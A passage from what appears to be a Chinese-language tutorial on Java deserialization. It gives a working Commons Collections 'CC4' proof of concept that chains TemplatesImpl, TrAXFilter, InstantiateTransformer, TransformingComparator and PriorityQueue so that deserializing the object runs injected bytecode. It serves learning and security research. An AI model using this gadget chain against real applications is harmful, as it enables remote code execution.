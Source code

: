 我们保证comparator是TransformingComparator类，而comparator又可以通过构造函数赋值，到这利用链完成。

更新Poc

```java
public class cc4 {
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ss.ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        //ChainedTransformer
        //PriorityQueue
        //CC3
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        serialize(priorityQueue);
        unserialize("ss.ser");

    }
}
```
